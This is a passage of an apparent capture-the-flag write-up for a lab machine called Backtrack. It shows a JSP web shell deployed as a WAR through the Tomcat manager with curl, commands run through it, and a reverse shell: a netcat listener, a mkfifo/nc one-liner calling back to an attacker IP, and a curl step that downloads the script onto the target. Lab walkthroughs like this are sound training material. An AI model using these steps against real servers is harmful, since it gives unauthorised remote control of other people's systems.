 ```java
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Then we run the following command to package the file from JSP to WAR (make sure the directory only has the `index.jsp` file):

```plaintext
jar -cvf webshell.war *
```

Next, we'll upload the `webshell.war` file using `curl` and the credentials for `tomcat`:

```plaintext
curl --upload-file webshell.war -u tomcat:<TOMCAT_PASSWORD> 'http://back.thm:8080/manager/text/deploy?path=/webshell&update=true'
```

We can now interact with the webshell using `curl` with the URL `http://back.thm:8080/webshell/index.jsp?cmd=<COMMAND>` and the command we want to run:

```plaintext
curl -s 'http://back.thm:8080/webshell/index.jsp?cmd=id'
```

![adc465999727401e942bc9ab64c212e6.png](/resources/765d5e6f82224c628c8a2c972f9c43f6.png)

### \[-] tomcat\@Backtrack

Now that we have the ability to run commands on the server, we can upgrade from a web shell to a reverse shell.

First, start a Netcat listener:

```plaintext
nc -nvlp 4444
```

Next, we'll create a shell script with the reverse shell code with the filename `shell.sh`:

```sh
#!/usr/bin/env bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Then, host it using a Python HTTP server:

```plaintext
python3 -m http.server 8888
```

We can make a `curl` request to the web shell to download our `shell.sh` from our web server and save it to the `/tmp` directory on the victim machine:

```plaintext
curl -s 'http://back.thm:8080/webshell/index.jsp?cmd=curl+<ATTACKER_IP>:8888/shell.sh+-o+/tmp/shell.sh'
```
